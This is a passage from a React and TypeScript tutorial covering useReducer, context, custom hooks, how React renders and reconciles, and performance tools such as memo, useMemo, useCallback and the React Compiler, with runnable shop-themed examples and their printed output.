    case "coupon_applied":
      return { ...state, coupon: action.code.trim().toUpperCase() };
    case "cart_cleared":
      return initialCart;
  }
}

// The reducer is a pure function: easy to test without any UI
const chai = { sku: "TEA-250", name: "Masala chai", pricePaise: 18000 };
const s1 = cartReducer(initialCart, { type: "item_added", item: chai });
const s2 = cartReducer(s1, { type: "item_added", item: chai });
const s3 = cartReducer(s2, { type: "qty_changed", sku: "TEA-250", qty: 0 });
console.log(s2.lines, s3.lines, initialCart.lines.length === 0);
```

**Output:**

```text
[ { sku: 'TEA-250', name: 'Masala chai', pricePaise: 18000, qty: 2 } ] [] true
```

Note that `initialCart` is unchanged: every action produced a **new** state object.

```tsx
const SUBTOTAL = (s: CartState) => s.lines.reduce((sum, l) => sum + l.pricePaise * l.qty, 0);
const DISCOUNT = (s: CartState) => (s.coupon === "CHAI10" ? Math.round(SUBTOTAL(s) * 0.1) : 0);

function Cart() {
  const [cart, dispatch] = useReducer(cartReducer, initialCart);
  const rupees = (p: number) => `₹${(p / 100).toFixed(2)}`;
  return (
    <div>
      <button onClick={() => dispatch({ type: "item_added", item: chai })}>Add chai</button>
      <button onClick={() => dispatch({ type: "item_added", item: { sku: "MUG-01", name: "Steel mug", pricePaise: 34900 } })}>Add mug</button>
      <button onClick={() => dispatch({ type: "coupon_applied", code: " chai10 " })}>Apply CHAI10</button>
      <button onClick={() => dispatch({ type: "cart_cleared" })}>Clear</button>
      <ul>
        {cart.lines.map(l => (
          <li key={l.sku}>
            <span>{l.name} × {l.qty}</span>
            <button aria-label={`fewer ${l.name}`} onClick={() => dispatch({ type: "qty_changed", sku: l.sku, qty: l.qty - 1 })}>−</button>
          </li>
        ))}
      </ul>
      <p>Subtotal {rupees(SUBTOTAL(cart))} · Discount {rupees(DISCOUNT(cart))} · Total {rupees(SUBTOTAL(cart) - DISCOUNT(cart))}</p>
    </div>
  );
}

render(<Cart />);
const click = (text: string) => fireEvent.click(screen.getByText(text));
click("Add chai"); click("Add chai"); click("Add mug"); click("Apply CHAI10");
console.log([...document.querySelectorAll("li span")].map(s => s.textContent).join(" | "));
console.log(screen.getByText(/Subtotal/).textContent);
fireEvent.click(screen.getByLabelText("fewer Steel mug"));
console.log(screen.getByText(/Subtotal/).textContent);
```

**Output:**

```text
Masala chai × 2 | Steel mug × 1
Subtotal ₹709.00 · Discount ₹70.90 · Total ₹638.10
Subtotal ₹360.00 · Discount ₹36.00 · Total ₹324.00
```

TypeScript only allows valid actions:

```tsx
function Broken() {
  const [, dispatch] = useReducer(cartReducer, initialCart);
  dispatch({ type: "item_add", item: chai });
  dispatch({ type: "qty_changed", sku: "TEA-250" });
  return null;
}
```

**Compiler output:**

```text
example.tsx(3,14): error TS2820: Type '"item_add"' is not assignable to type '"cart_cleared" | "coupon_applied" | "item_added" | "item_removed" | "qty_changed"'. Did you mean '"item_added"'?
example.tsx(4,12): error TS2345: Argument of type '{ type: "qty_changed"; sku: string; }' is not assignable to parameter of type 'CartAction'.
  Property 'qty' is missing in type '{ type: "qty_changed"; sku: string; }' but required in type '{ type: "qty_changed"; sku: string; qty: number; }'.
```

**Common mistakes:**

- Mutating state in the reducer (`state.lines.push(...)`, then `return state`): React sees the same object and may skip the update.
- Side effects in the reducer (fetching, `Date.now()`, `crypto.randomUUID()`): Strict Mode calls reducers twice in development to catch this. Generate IDs in the event handler and put them in the action.
- Actions named like setters (`set_lines`) that move the logic back into components.
- Using a reducer for one boolean. `useState` is fine for simple state.

### Practice

1. Write a reducer for a multi-step checkout wizard: state `{ step: 1 | 2 | 3; address: string; payment: "upi" | "card" | null }`, actions `next`, `back`, `address_entered`, `payment_chosen`. `next` from step 1 requires a non-empty address, from step 2 requires a payment. Run a sequence of actions and print the final state.

<details>
<summary><b>Answer</b></summary>

```tsx
type Wizard = { step: 1 | 2 | 3; address: string; payment: "upi" | "card" | null };
type WizardAction = { type: "next" } | { type: "back" } | { type: "address_entered"; address: string } | { type: "payment_chosen"; payment: "upi" | "card" };

function wizardReducer(s: Wizard, a: WizardAction): Wizard {
  switch (a.type) {
    case "address_entered": return { ...s, address: a.address };
    case "payment_chosen": return { ...s, payment: a.payment };
    case "back": return s.step === 1 ? s : { ...s, step: (s.step - 1) as 1 | 2 };
    case "next":
      if (s.step === 1 && s.address.trim()) return { ...s, step: 2 };
      if (s.step === 2 && s.payment) return { ...s, step: 3 };
      return s;                                      // not allowed yet: unchanged
  }
}

const actions: WizardAction[] = [
  { type: "next" },                                  // blocked: no address
  { type: "address_entered", address: "12 MG Road, Pune" },
  { type: "next" },
  { type: "next" },                                  // blocked: no payment
  { type: "payment_chosen", payment: "upi" },
  { type: "next" },
];
console.log(actions.reduce(wizardReducer, { step: 1, address: "", payment: null }));
```

**Output:**

```text
{ step: 3, address: '12 MG Road, Pune', payment: 'upi' }
```

(`actions.reduce(wizardReducer, initial)` replays a list of actions: a handy way to test reducers.)

</details>

**Learn more:** [react.dev: Extracting state logic into a reducer](https://react.dev/learn/extracting-state-logic-into-a-reducer) · [react.dev: useReducer](https://react.dev/reference/react/useReducer)

---

## 15. Context: Sharing Data Without Prop Drilling



### Theory

> **In simple words:** **context** lets a parent make a value available to **every component below it**, however deep, without passing props through each level. You create a context, wrap part of the tree in a provider with a `value`, and any descendant reads it with `useContext(MyContext)` (or React 19's `use(MyContext)`). Typical uses: the current user, theme, language, a shopping cart, or the shared state of a compound component like `<Tabs>`.

```text
const ThemeContext = createContext<"light" | "dark">("light");       // 1. create (with a default)
<ThemeContext value="dark"> ...children... </ThemeContext>            // 2. provide (React 19 syntax)
const theme = useContext(ThemeContext);                               // 3. read anywhere below
```

**Good uses vs not-so-good uses:**

| Good for | Not ideal for |
|---|---|
| Values many components need and that change **rarely**: user, theme, locale, feature flags | Rapidly changing values read by many components (every consumer re-renders on each change) |
| Dependency injection: an API client, analytics, a router | Replacing all props (makes data flow hard to follow) |
| Compound components (`Tabs`, `Accordion`, `Menu`) sharing internal state | Server data (use a data-fetching cache) |
| Combined with `useReducer` for a small app-wide store | Large, performance-sensitive global state (use Zustand/Redux with selectors) |

**Best practices:**

- Create a **custom hook** (`useAuth()`) that reads the context and **throws a clear error** if the provider is missing; export the hook and the provider, not the raw context.
- Use `null` as the default for contexts that must have a provider, so a missing provider is caught.
- **Split** contexts by how often they change (e.g. `CartStateContext` and `CartActionsContext`), so components that only dispatch don't re-render when the cart changes.
- Memoise the provided object if the provider re-renders often (`useMemo`), or let the React Compiler do it.

### React

**An auth context** with a custom hook that guards against a missing provider:

```tsx
import { createContext, useContext, useState, useReducer } from "react";
import type { ReactNode, Dispatch } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

type User = { name: string; role: "customer" | "admin" };
type AuthValue = { user: User | null; login: (u: User) => void; logout: () => void };

const AuthContext = createContext<AuthValue | null>(null);

function AuthProvider({ children }: { children: ReactNode }) {
  const [user, setUser] = useState<User | null>(null);
  return <AuthContext value={{ user, login: setUser, logout: () => setUser(null) }}>{children}</AuthContext>;
}

function useAuth(): AuthValue {
  const ctx = useContext(AuthContext);
  if (!ctx) throw new Error("useAuth must be used inside <AuthProvider>");
  return ctx;
}

// Deeply nested components read auth directly: no props passed through Header/Nav
function UserMenu() {
  const { user, login, logout } = useAuth();
  return user
    ? <span>Hi {user.name} {user.role === "admin" && "(admin)"} <button onClick={logout}>Log out</button></span>
    : <button onClick={() => login({ name: "Asha", role: "admin" })}>Log in</button>;
}
function Nav() { return <nav><UserMenu /></nav>; }
function Header() { return <header><Nav /></header>; }

render(<AuthProvider><Header /></AuthProvider>);
fireEvent.click(screen.getByText("Log in"));
console.log(document.querySelector("nav")!.textContent);
fireEvent.click(screen.getByText("Log out"));
console.log(document.querySelector("nav")!.textContent);

try {
  render(<UserMenu />);                          // forgot the provider
} catch (e) {
  console.log((e as Error).message);
}
```

**Output:**

```text
Hi Asha (admin) Log out
Log in
useAuth must be used inside <AuthProvider>
```

(In a browser, an error thrown while rendering also shows up in the console and unmounts the app; error boundaries, in a later section, show how to catch such errors gracefully.)

**Context + reducer = a small app store.** State and dispatch are in **separate** contexts so a component that only adds items doesn't re-render when the cart changes:

```tsx
type CartAction = { type: "added"; sku: string } | { type: "cleared" };
const CartContext = createContext<string[] | null>(null);
const CartDispatchContext = createContext<Dispatch<CartAction> | null>(null);

function cartReducer(items: string[], action: CartAction): string[] {
  return action.type === "added" ? [...items, action.sku] : [];
}

function CartProvider({ children }: { children: ReactNode }) {
  const [items, dispatch] = useReducer(cartReducer, []);
  return (
    <CartContext value={items}>
      <CartDispatchContext value={dispatch}>{children}</CartDispatchContext>
    </CartContext>
  );
}
const useCart = () => useContext(CartContext) ?? [];
const useCartDispatch = () => {
  const d = useContext(CartDispatchContext);
  if (!d) throw new Error("useCartDispatch must be used inside <CartProvider>");
  return d;
};

let addButtonRenders = 0;
function AddButton({ sku }: { sku: string }) {
  addButtonRenders++;
  const dispatch = useCartDispatch();
  return <button onClick={() => dispatch({ type: "added", sku })}>Add {sku}</button>;
}
function CartBadge() {
  const items = useCart();
  return <span>🛒 {items.length}</span>;
}

render(<CartProvider><AddButton sku="TEA" /><CartBadge /></CartProvider>);
fireEvent.click(screen.getByText("Add TEA"));
fireEvent.click(screen.getByText("Add TEA"));
console.log(screen.getByText(/🛒/).textContent, "| AddButton rendered", addButtonRenders, "time(s)");
```

**Output:**

```text
🛒 2 | AddButton rendered 1 time(s)
```

The badge updated twice, but `AddButton` rendered only once, because `dispatch` never changes.

**Compound components**: `Tabs` shares "which tab is active" with its children through a private context:

```tsx
const TabsContext = createContext<{ active: string; setActive: (id: string) => void } | null>(null);
function useTabs() {
  const ctx = useContext(TabsContext);
  if (!ctx) throw new Error("Tabs.* must be used inside <Tabs>");
  return ctx;
}

function Tabs({ defaultTab, children }: { defaultTab: string; children: ReactNode }) {
  const [active, setActive] = useState(defaultTab);
  return <TabsContext value={{ active, setActive }}><div>{children}</div></TabsContext>;
}
function Tab({ id, children }: { id: string; children: ReactNode }) {
  const { active, setActive } = useTabs();
  return <button role="tab" aria-selected={active === id} onClick={() => setActive(id)}>{children}</button>;
}
function Panel({ id, children }: { id: string; children: ReactNode }) {
  const { active } = useTabs();
  return active === id ? <div role="tabpanel">{children}</div> : null;
}
Tabs.Tab = Tab;
Tabs.Panel = Panel;

render(
  <Tabs defaultTab="details">
    <Tabs.Tab id="details">Details</Tabs.Tab>
    <Tabs.Tab id="reviews">Reviews (12)</Tabs.Tab>
    <Tabs.Panel id="details">Hand-blended Assam tea with spices.</Tabs.Panel>
    <Tabs.Panel id="reviews">★★★★★ "Best chai outside Pune!"</Tabs.Panel>
  </Tabs>,
);
console.log(screen.getByRole("tabpanel").textContent);
fireEvent.click(screen.getByText("Reviews (12)"));
console.log(screen.getByRole("tabpanel").textContent, "| selected:", screen.getByText("Reviews (12)").getAttribute("aria-selected"));
```

**Output:**

```text
Hand-blended Assam tea with spices.
★★★★★ "Best chai outside Pune!" | selected: true
```

**Common mistakes:**

- One giant "AppContext" with everything: every consumer re-renders on every change. Split by concern and change frequency.
- Using the raw context without a provider check (silently getting the default value).
- Creating a new `value` object on every render of a provider that re-renders often, re-rendering all consumers (memoise, or split).
- Using context for data that's only needed one or two levels down (props are clearer).

### Practice

1. Create a `ThemeProvider` with `theme: "light" | "dark"` and a `toggle` function, a `useTheme` hook, and a `ThemedButton` deep in the tree that shows the current theme and toggles it. Click it twice.

<details>
<summary><b>Answer</b></summary>

```tsx
type ThemeValue = { theme: "light" | "dark"; toggle: () => void };
const ThemeContext = createContext<ThemeValue | null>(null);

function ThemeProvider({ children }: { children: ReactNode }) {
  const [theme, setTheme] = useState<"light" | "dark">("light");
  return <ThemeContext value={{ theme, toggle: () => setTheme(t => (t === "light" ? "dark" : "light")) }}>{children}</ThemeContext>;
}
function useTheme() {
  const ctx = useContext(ThemeContext);
  if (!ctx) throw new Error("useTheme must be used inside <ThemeProvider>");
  return ctx;
}
function ThemedButton() {
  const { theme, toggle } = useTheme();
  return <button className={`btn-${theme}`} onClick={toggle}>{theme === "light" ? "☀️" : "🌙"} {theme}</button>;
}

render(<ThemeProvider><main><section><ThemedButton /></section></main></ThemeProvider>);
fireEvent.click(screen.getByRole("button"));
console.log(screen.getByRole("button").outerHTML);
fireEvent.click(screen.getByRole("button"));
console.log(screen.getByRole("button").outerHTML);
```

**Output:**

```text
<button class="btn-dark">🌙 dark</button>
<button class="btn-light">☀️ light</button>
```

</details>

**Learn more:** [react.dev: Passing data deeply with context](https://react.dev/learn/passing-data-deeply-with-context) · [react.dev: Scaling up with reducer and context](https://react.dev/learn/scaling-up-with-reducer-and-context) · [React 19: `<Context>` as a provider](https://react.dev/blog/2024/12/05/react-19#context-as-a-provider)

---

## 16. Custom Hooks: Reusing Stateful Logic

### Theory

> **In simple words:** a **custom hook** is a function whose name starts with `use` and which calls other hooks. It lets you pull **logic** (not markup) out of a component and reuse it: `useLocalStorage`, `useDebouncedValue`, `useOnlineStatus`, `useFetch`. Each component that calls a custom hook gets its **own independent** state; hooks share logic, not data.

**When to write one:** when two components repeat the same `useState` + `useEffect` dance, or a component's logic is long and has a clear job you can name. A good hook has a small, clear API: `const online = useOnlineStatus();`.

**Rules (same as all hooks):** name starts with `use` (so the linter can check the rules), call hooks only at the top level, and return whatever is convenient: a value, a tuple like `useState` (`[value, setValue]`), or an object for several values.

**Popular hooks you don't have to write yourself** (2026): data fetching (**TanStack Query**'s `useQuery`), forms (**React Hook Form**'s `useForm`), routing (`useParams`, `useNavigate`), and utility collections like **usehooks-ts**. React itself adds `useSyncExternalStore` for subscribing to external stores (browser APIs, Zustand) correctly.

**Testing:** test a hook through a tiny component, or with Testing Library's `renderHook`, which renders a hook and gives you its latest result.

### React

**`useLocalStorage`**: state that survives page reloads. Each caller gets its own state tied to its own key:

```tsx
import { useEffect, useState, useSyncExternalStore, act } from "react";
import { render, renderHook, screen, fireEvent } from "@testing-library/react";

function useLocalStorage<T>(key: string, initialValue: T) {
  const [value, setValue] = useState<T>(() => {
    try {
      const stored = localStorage.getItem(key);
      return stored === null ? initialValue : (JSON.parse(stored) as T);
    } catch {
      return initialValue;                        // corrupted JSON or storage blocked
    }
  });
  useEffect(() => {
    localStorage.setItem(key, JSON.stringify(value));
  }, [key, value]);
  return [value, setValue] as const;
}

function Settings() {
  const [theme, setTheme] = useLocalStorage<"light" | "dark">("theme", "light");
  const [recent, setRecent] = useLocalStorage<string[]>("recent", []);
  return (
    <div>
      <button onClick={() => setTheme(theme === "light" ? "dark" : "light")}>Theme: {theme}</button>
      <button onClick={() => setRecent([...recent, "chai"].slice(-3))}>Viewed chai ({recent.length})</button>
    </div>
  );
}

localStorage.clear();
const first = render(<Settings />);
fireEvent.click(screen.getByText(/Theme/));
fireEvent.click(screen.getByText(/Viewed/));
first.unmount();                                   // like closing the tab…
render(<Settings />);                              // …and coming back
console.log(screen.getByText(/Theme/).textContent, "|", screen.getByText(/Viewed/).textContent, "|", localStorage.getItem("recent"));
```

**Output:**

```text
Theme: dark | Viewed chai (1) | ["chai"]
```

**`useDebouncedValue`**: wait until the user stops typing before using a value (for search). Tested with `renderHook`:

```tsx
function useDebouncedValue<T>(value: T, delayMs: number): T {
  const [debounced, setDebounced] = useState(value);
  useEffect(() => {
    const id = setTimeout(() => setDebounced(value), delayMs);
    return () => clearTimeout(id);                  // a new value cancels the pending update
  }, [value, delayMs]);
  return debounced;
}

const { result, rerender } = renderHook(({ text }) => useDebouncedValue(text, 50), { initialProps: { text: "c" } });
rerender({ text: "ch" });
rerender({ text: "cha" });
rerender({ text: "chai" });
console.log("immediately:", result.current);
await act(() => new Promise(r => setTimeout(r, 80)));
console.log("after 80 ms:", result.current);
```

**Output:**

```text
immediately: c
after 80 ms: chai
```

The value jumped straight from "c" to "chai": the intermediate values never "fired", which is exactly what saves API calls in a search box.

**`useOnlineStatus` with `useSyncExternalStore`**, the correct way to subscribe to a browser API (or any external store) so every component sees a consistent value:

```tsx
function subscribe(callback: () => void) {
  window.addEventListener("online", callback);
  window.addEventListener("offline", callback);
  return () => {
    window.removeEventListener("online", callback);
    window.removeEventListener("offline", callback);
  };
}
function useOnlineStatus(): boolean {
  return useSyncExternalStore(subscribe, () => navigator.onLine, () => true);   // (subscribe, getSnapshot, getServerSnapshot)
}

function SaveButton() {
  const online = useOnlineStatus();
  return <button disabled={!online}>{online ? "Save" : "Reconnecting…"}</button>;
}

render(<SaveButton />);
let online = true;
Object.defineProperty(navigator, "onLine", { get: () => online, configurable: true });
online = false;
fireEvent(window, new Event("offline"));
console.log(screen.getByRole("button").textContent);
online = true;
fireEvent(window, new Event("online"));
console.log(screen.getByRole("button").textContent);
```

**Output:**

```text
Reconnecting…
Save
```

**Common mistakes:**

- Naming a helper `useSomething` that doesn't call any hooks (then it's just a function; name it normally), or a hook without `use` (the linter can't check it).
- Expecting two components calling the same hook to share state. They don't; share state via lifting up, context or a store.
- Hooks that do too much (`useEverything`). Small, focused hooks compose better.
- Subscribing to external sources with `useEffect` + `useState` instead of `useSyncExternalStore`, which can show inconsistent values during concurrent rendering.

### Practice

1. Write `useToggle(initial = false)` returning `[on, toggle, setOn]`, and `usePrevious<T>(value)` returning the value from the previous render (use a ref updated in an effect). Test both with `renderHook`.

<details>
<summary><b>Answer</b></summary>

```tsx
import { useCallback, useRef } from "react";

function useToggle(initial = false) {
  const [on, setOn] = useState(initial);
  const toggle = useCallback(() => setOn(v => !v), []);
  return [on, toggle, setOn] as const;
}

function usePrevious<T>(value: T): T | undefined {
  const ref = useRef<T | undefined>(undefined);
  useEffect(() => { ref.current = value; }, [value]);
  return ref.current;                                // still the old value during this render
}

const toggleHook = renderHook(() => useToggle());
act(() => toggleHook.result.current[1]());
act(() => toggleHook.result.current[1]());
act(() => toggleHook.result.current[1]());
console.log("toggled 3 times:", toggleHook.result.current[0]);

const prevHook = renderHook(({ v }) => usePrevious(v), { initialProps: { v: 1 } });
console.log("first render:", prevHook.result.current);
prevHook.rerender({ v: 2 });
console.log("after 1 → 2:", prevHook.result.current);
```

**Output:**

```text
toggled 3 times: true
first render: undefined
after 1 → 2: 1
```

(`useCallback` keeps `toggle` the same function between renders; the performance section explains why that can matter.)

</details>

**Learn more:** [react.dev: Reusing logic with custom hooks](https://react.dev/learn/reusing-logic-with-custom-hooks) · [react.dev: useSyncExternalStore](https://react.dev/reference/react/useSyncExternalStore) · [usehooks-ts](https://usehooks-ts.com/)

---

## 17. How React Renders: Trigger, Render, Commit, Reconciliation and Keys

### Theory

> **In simple words:** when state changes, React doesn't rebuild the page. It (1) **triggers** a re-render of that component, (2) **renders**: calls the component function (and its children) to get new JSX, (3) **reconciles**: compares the new tree with the previous one to find differences, and (4) **commits**: applies only those differences to the real DOM. Understanding this explains most "why did this re-render?" and "why was my state reset?" questions.

**When does a component re-render?**

1. Its **state** changed (or a context it reads changed).
2. Its **parent** re-rendered: by default, **all children re-render too**, even if their props didn't change. That's usually fine: rendering is just calling functions; the DOM only changes where output differs. (`memo`, next section, can skip this.)

Props changing is **not** a separate trigger; props only change because the parent re-rendered.

**Reconciliation rules** (how React matches old and new trees):

- React compares element **type and position**. Same type at the same position → React **keeps** that component instance and its state, updating props. Different type → it **destroys** the old subtree (state lost) and creates a new one.
- **State belongs to a position in the tree**, not to the component function. Rendering `<Counter />` in the same spot keeps its state even if you think of it as "a different counter".
- **Keys** give an element an identity beyond its position. Changing a component's `key` makes React treat it as a **new** component: a clean way to **reset** its state (e.g. `<ProfileForm key={userId} />`).

**The virtual DOM, Fiber and concurrent rendering (for interviews):** React keeps a lightweight tree of the UI ("fiber" nodes) and diffs it, which is much cheaper than touching the real DOM. Fiber lets React **split rendering into small units of work** that can be paused, prioritised and resumed, which powers concurrent features (`useTransition`, Suspense): urgent updates like typing can interrupt a slow background render. The diff is a heuristic O(n) algorithm, relying on types and keys rather than a full tree comparison.

**Strict Mode** (development only) renders components twice and runs effects setup → cleanup → setup, to reveal impure rendering and missing cleanups. It doesn't happen in production.

### React

**Parents re-render children** (even with unchanged props), and the DOM only changes where the output changed:

```tsx
import { useState, StrictMode } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

const renders: string[] = [];
function Header() { renders.push("Header"); return <h1>Chai Point</h1>; }
function Counter({ count }: { count: number }) { renders.push("Counter"); return <p>{count}</p>; }

function App() {
  renders.push("App");
  const [count, setCount] = useState(0);
  return (
    <div>
      <Header />
      <Counter count={count} />
      <button onClick={() => setCount(count + 1)}>+1</button>
    </div>
  );
}

render(<App />);
const h1 = document.querySelector("h1");
renders.length = 0;
fireEvent.click(screen.getByText("+1"));
console.log("rendered:", renders, "| same <h1> DOM node kept:", document.querySelector("h1") === h1);
```

**Output:**

```text
rendered: [ 'App', 'Header', 'Counter' ] | same <h1> DOM node kept: true
```

`Header` ran again (its props didn't change), but React didn't touch its DOM node, because its output was identical.

**State is tied to position and type.** Switching between two `<Counter>`s at the **same position** keeps the count; changing the **type** at that position resets it; a different **key** also resets it:

```tsx
function ClickCounter({ label }: { label: string }) {
  const [n, setN] = useState(0);
  return <button onClick={() => setN(n + 1)}>{label}: {n}</button>;
}

function Scoreboard({ mode }: { mode: "same-position" | "different-key" | "different-type" }) {
  const [isAsha, setIsAsha] = useState(true);
  const player = isAsha ? "Asha" : "Ravi";
  let board;
  if (mode === "same-position") board = <ClickCounter label={player} />;
  else if (mode === "different-key") board = <ClickCounter key={player} label={player} />;
  else board = isAsha ? <ClickCounter label={player} /> : <section><ClickCounter label={player} /></section>;
  return <div>{board}<button onClick={() => setIsAsha(!isAsha)}>switch player</button></div>;
}

for (const mode of ["same-position", "different-key", "different-type"] as const) {
  const { unmount } = render(<Scoreboard mode={mode} />);
  const score = () => screen.getByText(/: \d/);
  fireEvent.click(score());
  fireEvent.click(score());
  fireEvent.click(screen.getByText("switch player"));
  console.log(mode.padEnd(14), "→", score().textContent);
  unmount();
}
```

**Output:**

```text
same-position  → Ravi: 2
different-key  → Ravi: 0
different-type → Ravi: 0
```

With the same position and type, Ravi "inherits" Asha's score of 2 (usually a bug). A `key` or a different type gives Ravi a fresh counter.

**Resetting a form when the selected item changes**, using `key` instead of an effect:

```tsx
function NoteEditor({ initial }: { initial: string }) {
  const [text, setText] = useState(initial);
  return <textarea aria-label="note" value={text} onChange={e => setText(e.target.value)} />;
}

function Notes() {
  const notes = { a: "Buy cardamom", b: "Call supplier" };
  const [selected, setSelected] = useState<"a" | "b">("a");
  return (
    <div>
      <button onClick={() => setSelected("b")}>Open note b</button>
      <NoteEditor key={selected} initial={notes[selected]} />
    </div>
  );
}

render(<Notes />);
fireEvent.change(screen.getByLabelText("note"), { target: { value: "Buy cardamom and ginger" } });
fireEvent.click(screen.getByText("Open note b"));
console.log((screen.getByLabelText("note") as HTMLTextAreaElement).value);
```

**Output:**

```text
Call supplier
```

Without the `key`, the editor would keep showing the edited text of note **a** after switching to **b**.

**Strict Mode double-renders in development** to catch impure components:

```tsx
let strictRenders = 0;
function Impure() {
  strictRenders++;                           // side effect during render: Strict Mode makes it visible
  return <p>hello</p>;
}
render(<StrictMode><Impure /></StrictMode>);
console.log("rendered", strictRenders, "times for one mount (development only)");
```

**Output:**

```text
rendered 2 times for one mount (development only)
```

**Common mistakes:**

- Thinking a re-render means the DOM was rebuilt. Re-rendering is calling functions; DOM updates are minimal.
- Premature optimisation: wrapping everything in `memo` because "it re-renders". Measure first (next section).
- Defining components inside other components: a new type every render → state reset every render.
- Expecting state to reset when props change. Use a `key` to reset deliberately.
- Being alarmed by double logs in development: that's Strict Mode.

### Practice

1. In `Scoreboard`'s "same-position" mode, how would you make each player keep **their own** score while switching back and forth (Asha 2 → Ravi 0 → Asha 2 again)? Explain without code.

<details>
<summary><b>Answer</b></summary>

Keys and different positions give each player a **fresh** counter, but switching back would also reset Asha to 0, because her component was unmounted. To **keep** both scores, either render both counters and hide the inactive one (both stay mounted: `<div hidden={!isAsha}>`), or **lift the state up** into the parent as `{ Asha: 2, Ravi: 0 }` and pass each counter its score and an `onIncrement` callback. Lifting state up is the usual solution; it also makes the scores available for a leaderboard.

</details>

**Learn more:** [react.dev: Render and commit](https://react.dev/learn/render-and-commit) · [react.dev: Preserving and resetting state](https://react.dev/learn/preserving-and-resetting-state) · [react.dev: StrictMode](https://react.dev/reference/react/StrictMode)

---

## 18. Performance: memo, useMemo, useCallback and the React Compiler

### Theory

> **In simple words:** React is fast by default, and most apps never need manual optimisation. When something **is** slow (typing lags, a big list stutters), the fix is usually to **do less work per render**: skip re-rendering components whose props didn't change (`memo`), avoid recomputing expensive values (`useMemo`), and keep function and object props **stable** so `memo` can work (`useCallback`). In 2026 the **React Compiler** does most of this automatically at build time.

**The tools:**

| Tool | What it does | Use when |
|---|---|---|
| `memo(Component)` | Skips re-rendering if all props are `Object.is`-equal to last time | An expensive child re-renders often with the same props |
| `useMemo(() => compute(a, b), [a, b])` | Caches a **value** until dependencies change | Expensive calculations (sorting/filtering thousands of items), or to keep an object prop stable for a `memo` child |
| `useCallback(fn, [deps])` | Caches a **function** until dependencies change | Passing callbacks to `memo` children or as effect dependencies |
| **React Compiler** | Build-time plugin that memoises components and values automatically | New and existing projects (stable since 2025; Next.js, Vite and Expo support it) |
| `useTransition` / `useDeferredValue` | Keep typing responsive while a slow render happens in the background | Part 5 |
| Virtualisation (TanStack Virtual, react-window) | Render only the visible rows of a huge list | Lists with thousands of rows |
| Code splitting (`lazy`) | Load code only when needed | Part 3 (Suspense) |

**Why `memo` often "doesn't work":** props compared by **reference**. An object literal `style={{ color: "red" }}`, an array `items={list.filter(...)}` or an arrow function `onClick={() => ...}` is a **new** value on every render, so `memo` sees changed props every time. `useMemo`/`useCallback` (or the compiler) keep them stable.

**Measure first:** use the **React DevTools Profiler** (records which components rendered and how long they took, and why), the browser's Performance panel, and Core Web Vitals (INP measures input responsiveness). Optimise the slow part you measured, not everything.

**Other cheap wins before memoisation:** move state **down** (only the part of the tree that needs it re-renders), pass slow subtrees as `children` (children created by a parent that didn't re-render are skipped), and avoid storing rapidly changing values (mouse position, scroll) in high-level state.

### React

**`memo` + `useCallback`**: a slow list re-renders on every keystroke in an unrelated input, until props are stable:

```tsx
import { memo, useCallback, useMemo, useState } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

let listRenders = 0;
type Product = { sku: string; name: string; pricePaise: number };
const PRODUCTS: Product[] = Array.from({ length: 500 }, (_, i) => ({ sku: `SKU-${i}`, name: `Item ${i}`, pricePaise: (i % 50) * 1000 + 999 }));

const ProductList = memo(function ProductList({ products, onAdd }: { products: Product[]; onAdd: (sku: string) => void }) {
  listRenders++;
  return <ul>{products.slice(0, 3).map(p => <li key={p.sku} onClick={() => onAdd(p.sku)}>{p.name}</li>)}</ul>;
});

function Shop({ stable }: { stable: boolean }) {
  const [note, setNote] = useState("");
  const [cart, setCart] = useState<string[]>([]);

  const unstableAdd = (sku: string) => setCart(c => [...c, sku]);                  // new function every render
  const stableAdd = useCallback((sku: string) => setCart(c => [...c, sku]), []);   // same function every render

  return (
    <div>
      <input aria-label="note" value={note} onChange={e => setNote(e.target.value)} />
      <p>cart: {cart.length}</p>
      <ProductList products={PRODUCTS} onAdd={stable ? stableAdd : unstableAdd} />
    </div>
  );
}

for (const stable of [false, true]) {
  listRenders = 0;
  const { unmount } = render(<Shop stable={stable} />);
  for (const text of ["d", "de", "del", "deli", "deliv"]) fireEvent.change(screen.getByLabelText("note"), { target: { value: text } });
  console.log(stable ? "with useCallback:" : "new function:    ", `list rendered ${listRenders} times for 5 keystrokes`);
  unmount();
}
```

**Output:**

```text
new function:     list rendered 6 times for 5 keystrokes
with useCallback: list rendered 1 times for 5 keystrokes
```

**`useMemo` for an expensive calculation**: filtering and sorting 500 products runs only when the query changes, not when an unrelated toggle does:

```tsx
let computeCount = 0;
function Catalogue() {
  const [query, setQuery] = useState("");
  const [dark, setDark] = useState(false);

  const visible = useMemo(() => {
    computeCount++;
    return PRODUCTS.filter(p => p.name.includes(query)).toSorted((a, b) => a.pricePaise - b.pricePaise);
  }, [query]);

  return (
    <div className={dark ? "dark" : ""}>
      <input aria-label="q" value={query} onChange={e => setQuery(e.target.value)} />
      <button onClick={() => setDark(d => !d)}>theme</button>
      <p>{visible.length} results, cheapest {visible[0]?.name}</p>
    </div>
  );
}

render(<Catalogue />);
fireEvent.click(screen.getByText("theme"));
fireEvent.click(screen.getByText("theme"));
fireEvent.change(screen.getByLabelText("q"), { target: { value: "Item 4" } });
console.log(screen.getByText(/results/).textContent, "| computed", computeCount, "times for 4 renders");
```

**Output:**

```text
111 results, cheapest Item 400 | computed 2 times for 4 renders
```

**Moving state down: the fix that needs no memoisation.** The `Clock`'s ticking state lives inside a tiny component, so the expensive sibling never re-renders:

```tsx
import { act, useEffect } from "react";

let expensiveRenders = 0;
function ExpensiveChart() { expensiveRenders++; return <svg aria-label="chart" />; }

function Clock() {
  const [ticks, setTicks] = useState(0);
  useEffect(() => { const id = setInterval(() => setTicks(t => t + 1), 5); return () => clearInterval(id); }, []);
  return <time>{ticks > 0 ? "ticking" : "starting"}</time>;
}

function Dashboard() {
  return <div><Clock /><ExpensiveChart /></div>;           // state lives in Clock, not here
}

const dashboard = render(<Dashboard />);
await act(() => new Promise(r => setTimeout(r, 60)));
console.log(document.querySelector("time")!.textContent, "| chart rendered", expensiveRenders, "time(s)");
dashboard.unmount();                                       // stops the interval
```

**Output:**

```text
ticking | chart rendered 1 time(s)
```

**The React Compiler** removes most manual `memo`/`useMemo`/`useCallback`. You write plain code, and the build step inserts fine-grained caching:

<!-- no-run (build configuration) -->
```text
npm install -D babel-plugin-react-compiler eslint-plugin-react-hooks
# Vite: react({ babel: { plugins: ["babel-plugin-react-compiler"] } })
# Next.js: next.config.ts → reactCompiler: true
```

